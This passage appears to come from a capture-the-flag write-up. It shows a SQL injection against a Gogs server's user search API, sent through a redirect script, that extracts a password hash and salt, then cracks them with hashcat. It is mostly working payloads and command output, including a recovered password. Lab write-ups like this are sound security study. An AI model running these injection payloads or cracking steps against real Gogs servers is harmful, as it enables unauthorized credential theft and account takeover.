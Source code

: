 And we got it working on our local gogs instance 
```bash
curl -s "http://192.168.0.73:3000/api/v1/users/search?q='/**/and/**/name)/**/union/**/all/**/select/**/1,1,(select/**/name/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1/**/from/**/user/**/where/**/('%25'%3D'"|jq .data[0].username
"blnkn"
```
```bash
curl -s "http://192.168.0.73:3000/api/v1/users/search?q='/**/and/**/name)/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1/**/from/**/user/**/where/**/('%25'%3D'"|jq .data[0].username
"bc356f2eac41c08e9811d4525fa7bc50b7cea2ae07d82cc2cb95412807e17736525dcfc96f6f71e5e65b66e3f73da7399761"
```
```bash
curl -s "http://192.168.0.73:3000/api/v1/users/search?q='/**/and/**/name)/**/union/**/all/**/select/**/1,1,(select/**/salt/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1/**/from/**/user/**/where/**/('%25'%3D'"|jq .data[0].username
"LEdiEU0Wob"
```

Now getting that from the remote, through the redirect  

```bash
python3 redirect.py "http://127.0.0.1:3000/api/v1/users/search?q='/**/and/**/name)/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1/**/from/**/user/**/where/**/('%25'%3D'"
10.10.11.176 - - [17/Sep/2022 22:27:08] "GET / HTTP/1.0" 302 -
```
```bash
66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37
```

```bash
python3 redirect.py "http://127.0.0.1:3000/api/v1/users/search?q='/**/and/**/name)/**/union/**/all/**/select/**/1,1,(select/**/salt/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1/**/from/**/user/**/where/**/('%25'%3D'"
10.10.11.176 - - [17/Sep/2022 22:25:18] "GET / HTTP/1.0" 302 -
```
```bash
sO3XIbeW14
```

## Cracking the real hash
```bash
printf "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37"|xxd -r -p|base64

ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```
```bash
printf "sO3XIbeW14"|base64
c08zWEliZVcxNA==
```
```bash
hashcat -m 10900 sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc= /usr/share/wordlists/rockyou.txt

sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U...9O/jc=
Time.Started.....: Sat Sep 17 22:31:28 2022 (34 secs)
Time.Estimated...: Sat Sep 17 22:32:02 2022 (0 secs)
```